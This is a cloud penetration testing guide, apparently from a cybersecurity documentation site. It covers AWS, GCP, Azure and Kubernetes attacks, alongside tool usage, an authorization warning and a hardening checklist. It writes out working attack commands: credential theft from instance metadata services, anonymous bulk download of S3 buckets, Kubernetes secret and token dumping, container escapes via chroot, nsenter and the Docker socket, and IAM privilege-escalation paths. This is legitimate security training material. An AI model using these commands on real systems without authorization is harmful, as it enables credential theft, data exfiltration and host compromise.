



# Cloud Penetration Testing

Cloud environments introduce an entirely new attack surface that does not exist in traditional infrastructure. Misconfigured IAM policies, overly permissive storage buckets, exposed metadata services, and container escapes have replaced the firewall misconfigurations and unpatched servers of the on-premises era. Cloud pentesting requires understanding the shared responsibility model, cloud-specific APIs, and how the primitives of identity, storage, compute, and networking are implemented differently in AWS, GCP, and Azure.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Web App Pentesting](/cybersecurity/web-app-pentesting) | [OSINT](/cybersecurity/osint) | [Security Tools](/cybersecurity/security-tools)

::: danger Cloud Pentesting Authorization
Cloud providers have specific policies for penetration testing. AWS no longer requires pre-approval for most services but restricts DNS zone walking, DoS, and port flooding. GCP and Azure have similar policies. Always review the provider's current pentesting policy and obtain written authorization from the account owner.
:::

---

## Cloud Attack Surface



### Cloud vs Traditional Pentesting

| Aspect | Traditional | Cloud |
|--------|-------------|-------|
| **Perimeter** | Firewalls, DMZ | IAM policies, security groups |
| **Lateral movement** | Network pivoting | Role assumption, cross-account trust |
| **Privilege escalation** | OS-level (SUID, kernel) | IAM policy abuse, role chaining |
| **Data exfiltration** | Network-based | Storage API, Lambda, DNS |
| **Persistence** | Backdoors, rootkits | IAM users, Lambda functions, startup scripts |
| **Detection** | IDS/IPS | CloudTrail, GuardDuty, Config |

---

## AWS Penetration Testing

### IAM Enumeration

IAM is the most critical attack surface in AWS. An overprivileged IAM policy is equivalent to a root shell.

```bash
# Check current identity
aws sts get-caller-identity

# Enumerate IAM users
aws iam list-users
aws iam list-groups
aws iam list-roles
aws iam list-policies --scope Local

# Get policy details
aws iam get-user-policy --user-name target-user --policy-name PolicyName
aws iam list-attached-user-policies --user-name target-user
aws iam get-policy-version --policy-arn arn:aws:iam::123456789012:policy/Name \
  --version-id v1

# Find overprivileged policies
# Look for: Action: "*", Resource: "*" (admin access)
# Look for: iam:PassRole, sts:AssumeRole, lambda:CreateFunction

# Enumerate access keys
aws iam list-access-keys --user-name target-user

# Check MFA status
aws iam list-mfa-devices --user-name target-user
```

### S3 Bucket Attacks

```bash
# Discover S3 buckets
# Common naming patterns: company-name, company-backup, company-logs
aws s3 ls s3://target-company-backup --no-sign-request

# List bucket contents (anonymous)
aws s3 ls s3://target-bucket --no-sign-request

# Download everything
aws s3 sync s3://target-bucket ./loot --no-sign-request

# Check bucket policy
aws s3api get-bucket-policy --bucket target-bucket

# Check ACL
aws s3api get-bucket-acl --bucket target-bucket

# Test write access
echo "test" > test.txt
aws s3 cp test.txt s3://target-bucket/test.txt --no-sign-request

# Tool: S3Scanner
s3scanner scan --buckets-file bucket-names.txt
```

### EC2 Metadata SSRF

The instance metadata service (IMDS) at `169.254.169.254` is the most exploited cloud attack vector. An SSRF vulnerability in a web application running on EC2 gives the attacker the instance's IAM credentials.



```bash
# IMDSv1 (no authentication — vulnerable by default)
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
curl http://169.254.169.254/latest/user-data  # Often contains startup scripts with secrets

# IMDSv2 (requires token — harder to exploit via SSRF)
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/

# Defense: Enforce IMDSv2
aws ec2 modify-instance-metadata-options \
  --instance-id i-1234567890abcdef0 \
  --http-tokens required \
  --http-endpoint enabled
```

### Lambda Abuse

```bash
# List Lambda functions
aws lambda list-functions

# Get function code (download the deployment package)
aws lambda get-function --function-name target-function

# Check function environment variables (often contain secrets)
aws lambda get-function-configuration --function-name target-function | \
  jq '.Environment.Variables'

# Invoke function (if you have permissions)
aws lambda invoke --function-name target-function \
  --payload '{"key": "value"}' output.json
```

### AWS Privilege Escalation Paths

| Path | Required Permissions | Escalation |
|------|---------------------|-----------|
| IAM policy attachment | `iam:AttachUserPolicy` | Attach AdministratorAccess to yourself |
| Create access key | `iam:CreateAccessKey` | Create keys for admin user |
| PassRole + Lambda | `iam:PassRole` + `lambda:CreateFunction` + `lambda:InvokeFunction` | Create Lambda with admin role |
| PassRole + EC2 | `iam:PassRole` + `ec2:RunInstances` | Launch EC2 with admin role |
| STS assume role | `sts:AssumeRole` | Assume a more privileged role |
| Update function code | `lambda:UpdateFunctionCode` | Inject code into existing Lambda |
| Create login profile | `iam:CreateLoginProfile` | Set password for IAM user |
| SSM RunCommand | `ssm:SendCommand` | Execute commands on EC2 instances |

---

## AWS Pentesting Tools

### Pacu — AWS Exploitation Framework

```bash
# Install Pacu
pip install pacu

# Start Pacu
pacu

# Set keys
set_keys

# Run enumeration modules
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
run s3__bucket_finder
run ec2__enum
run lambda__enum
run ecs__enum

# Privilege escalation
run iam__privesc_scan

# Credential harvesting
run ec2__download_userdata
run lambda__enum  # Check environment variables
```

### ScoutSuite — Multi-Cloud Auditing

```bash
# Install ScoutSuite
pip install scoutsuite

# AWS audit
scout aws --profile production

# GCP audit
scout gcp --user-account

# Azure audit
scout azure --cli

# Results are generated as an interactive HTML report
# Open scout-report/report.html
```

### Prowler — AWS Security Best Practices

```bash
# Install Prowler
pip install prowler

# Run full audit
prowler aws

# Run specific checks
prowler aws --checks iam_password_policy_minimum_length_14
prowler aws --category internet-exposed
prowler aws --compliance cis_2.0_aws

# Output formats
prowler aws -M csv -o results/
prowler aws -M json-ocsf -o results/
```

---

## GCP Penetration Testing

### Service Account Enumeration

```bash
# List service accounts
gcloud iam service-accounts list

# Get IAM policy for a project
gcloud projects get-iam-policy PROJECT_ID

# List service account keys (leaked keys = compromised)
gcloud iam service-accounts keys list --iam-account SA_EMAIL

# Test for service account impersonation
gcloud auth print-access-token --impersonate-service-account=SA_EMAIL

# Metadata endpoint (GCP)
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Get project metadata
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/project/attributes/
```

### GCP Storage Bucket Misconfiguration

```bash
# Check if bucket is publicly accessible
gsutil ls gs://target-bucket
gsutil cat gs://target-bucket/secret-file.txt

# Check bucket ACL
gsutil iam get gs://target-bucket

# Enumerate publicly accessible buckets
# Common patterns: project-name-backup, company-data, staging-assets
```

---

## Azure Penetration Testing

### Azure AD Enumeration

```bash
# Login with Azure CLI
az login

# Enumerate users
az ad user list --output table
az ad group list --output table
az ad app list --output table

# Get current user's role assignments
az role assignment list --assignee CURRENT_USER_ID

# Enumerate storage accounts
az storage account list --output table

# Check for blob containers accessible without auth
az storage container list --account-name TARGET_STORAGE \
  --auth-mode login --output table

# Azure metadata endpoint
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# Get access token from metadata
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

---

## Kubernetes Penetration Testing

Kubernetes adds another layer of complexity. Misconfigured clusters are rampant and often provide a direct path to cluster admin.

### Kubernetes Attack Surface



### Kubernetes Enumeration

```bash
# Check if you're in a pod
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace

# Set up kubectl with service account token
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# Query API server
curl -sk https://kubernetes.default.svc/api/v1/namespaces \
  -H "Authorization: Bearer $TOKEN"

# List pods
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
kubectl get configmaps --all-namespaces

# Check RBAC permissions
kubectl auth can-i --list
kubectl auth can-i create pods
kubectl auth can-i get secrets

# Get secrets (if allowed)
kubectl get secret target-secret -o jsonpath='{.data}' | \
  base64 --decode
```

### Container Escape Techniques

```bash
# Check if container is privileged
cat /proc/1/status | grep -i cap
# CapEff: 0000003fffffffff = privileged (all capabilities)

# Privileged container escape via mounting host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host
chroot /mnt/host /bin/bash
# Now you're on the host

# Escape via host PID namespace
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash

# Check for writable hostPath mounts
mount | grep -v "overlay\|proc\|sys\|cgroup"
# If /var/run/docker.sock is mounted:
docker -H unix:///var/run/docker.sock ps
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host
```

### Kubernetes Security Tools

| Tool | Purpose | Command |
|------|---------|---------|
| **kube-hunter** | Penetration testing | `kube-hunter --remote TARGET` |
| **kubeaudit** | Configuration auditing | `kubeaudit all` |
| **kube-bench** | CIS benchmark checks | `kube-bench run --targets node` |
| **kubectl-who-can** | RBAC analysis | `kubectl who-can get secrets` |
| **peirates** | K8s pentesting toolkit | Interactive shell |
| **CDK** | Container escape toolkit | `cdk evaluate` |

---

## Cloud Attack Frameworks

### MITRE ATT&CK for Cloud

| Tactic | AWS Example | Detection |
|--------|-------------|-----------|
| **Initial Access** | Compromised access keys, SSRF to metadata | CloudTrail unusual API calls |
| **Execution** | Lambda invoke, SSM RunCommand | CloudTrail, Lambda logs |
| **Persistence** | Create IAM user, modify Lambda, add SSH key | Config rules, GuardDuty |
| **Privilege Escalation** | Attach admin policy, PassRole exploitation | IAM Access Analyzer |
| **Defense Evasion** | Disable CloudTrail, modify security groups | CloudTrail tamper detection |
| **Credential Access** | Metadata service, Secrets Manager, Parameter Store | GuardDuty, VPC Flow Logs |
| **Discovery** | IAM enumeration, S3 listing, describe-instances | CloudTrail read-only API patterns |
| **Lateral Movement** | Assume role cross-account, SSM to other instances | Cross-account CloudTrail |
| **Exfiltration** | S3 copy, snapshot sharing, DNS tunneling | S3 access logs, VPC Flow Logs |
| **Impact** | Crypto mining, data destruction, ransomware | GuardDuty crypto findings, billing alerts |

---

## Cloud Hardening Checklist

| Control | AWS | GCP | Azure |
|---------|-----|-----|-------|
| **Enforce MFA** | IAM policy condition | Org policy | Conditional Access |
| **Least privilege** | IAM Access Analyzer | Policy Troubleshooter | PIM |
| **Block public storage** | S3 Block Public Access | Org policy | Storage firewall |
| **Enforce IMDSv2** | Instance metadata options | N/A (always requires header) | N/A |
| **Enable logging** | CloudTrail (all regions) | Audit Logs | Activity Log |
| **Detect threats** | GuardDuty | Security Command Center | Defender for Cloud |
| **Encrypt at rest** | KMS default encryption | CMEK | Key Vault |
| **Network segmentation** | VPC + Security Groups | VPC + Firewall Rules | NSG + ASG |
| **Rotate credentials** | Access key rotation policy | Service account key rotation | Key Vault rotation |

---

## Further Reading

- [Cybersecurity Overview](/cybersecurity/) — career paths and learning roadmap
- [Web App Pentesting](/cybersecurity/web-app-pentesting) — SSRF testing, the gateway to cloud attacks
- [OSINT](/cybersecurity/osint) — discovering exposed cloud assets
- [Linux Security](/cybersecurity/linux-security) — host-level security within cloud instances
- [Incident Response](/cybersecurity/incident-response-forensics) — responding to cloud breaches
- [Infrastructure](/infrastructure/) — cloud architecture patterns and security
